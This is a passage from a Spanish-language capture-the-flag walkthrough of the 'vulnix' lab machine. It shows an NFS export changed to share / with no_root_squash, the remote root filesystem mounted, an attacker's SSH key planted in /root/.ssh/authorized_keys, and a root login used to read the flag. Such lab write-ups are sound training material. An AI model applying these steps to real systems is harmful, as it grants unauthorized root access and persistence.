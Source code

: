```bash
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,root_squash)
/               *(rw,no_root_squash)
```
Después de modificar el script, tendremos que desmontar la unidad que teníamos y reiniciar la máquina objetivo
```bash
┌──(kali㉿kali)-[~]
└─$ sudo umount /mnt
```
Ahora, al ver las unidades compartidas por NFS, veremos que también tenemos la raíz.
```bash
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.0.1.24
Export list for 10.0.1.24:
/            *
/home/vulnix *
```
Montamos esta unidad en nuestro sistema local
```bash
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.0.1.24:/ /mnt -nolock
```
Con esto habremos obtenido acceso a todo el sistema y podremos conseguir la última flag en el directorio /root. Si queremos obtener acceso root, repetiremos el proceso que hicimos con el usuario vulnix, creando un directorio .ssh en /root
```bash
┌──(kali㉿kali)-[~]
└─$ sudo mkdir /mnt/root/.ssh
```
Copiamos la clave RSA pública que creamos anteriormente al directorio .ssh de root
```bash
┌──(root㉿kali)-[~]
└─# cp /home/vulnix/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
```
Esta vez, nos conectamos utilizando el usuario root.
```bash
┌──(vulnix㉿kali)-[~]
└─$ ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i .ssh/id_rsa root@10.0.1.24
```
Finalmente, tenemos acceso root a la máquina y podemos obtener la flag desde el directorio /root.
```bash
root@vulnix:~# cd /root
root@vulnix:~# ls
trophy.txt
root@vulnix:~# cat trophy.txt 
cc614640424f5bd60ce5d5264899c3be
```